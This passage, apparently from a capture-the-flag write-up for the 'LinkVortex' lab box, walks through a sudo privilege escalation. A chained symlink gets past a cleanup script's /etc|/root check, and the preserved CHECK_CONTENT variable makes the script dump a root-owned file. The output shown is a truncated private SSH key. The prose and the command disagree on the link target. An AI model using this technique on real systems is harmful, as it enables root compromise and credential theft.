 This checks if the symlink points to a file in the directories (/etc or /root) using grep. If true it unlinks the file.

```bash
else
  /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
  /usr/bin/mv $LINK $QUAR_DIR/
```

If the file doesn't point to `/etc or /root` it moves the symlink to `/var/quarantined`.

```bash
if $CHECK_CONTENT; then
  /usr/bin/echo "Content:"
  /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
fi
```

Now if the `$CHECK_CONTENT` is set to true it will print the content of the file.

### Code exploitation

Now we need to read the root ssh key somehow.

To bypass the directory check `/etc|/root` we can create two symbolic links, the first points to `/root/.ssh/id_rsa` and the second points the the first sym link.

```bash
ln -s /root/root.txt /home/bob/first
ln -s /home/bob/first second.png
```

Now we need the script to print out the file.

In the first if statement, it checks for `CHECK_CONTENT` if it's already set, if not it sets it to false.

If we check the sudo -l command we see `env_keep+=CHECK_CONTENT` which means we can set it to `true` before running the script and we can print the file.

Now let's run the script.

```bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/second.png
```

```terminal
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/second.png 
Link found [ /home/bob/second.png ] , moving it to quarantine                                  
Content:                                                                                       
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
V1xkmWhQWEvCiI22UjIoFkI0oOfDrm6ZQTyZF99AqBVcwGCjEA67eEKt/5oejN5YgL7Ipu
[...]
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```
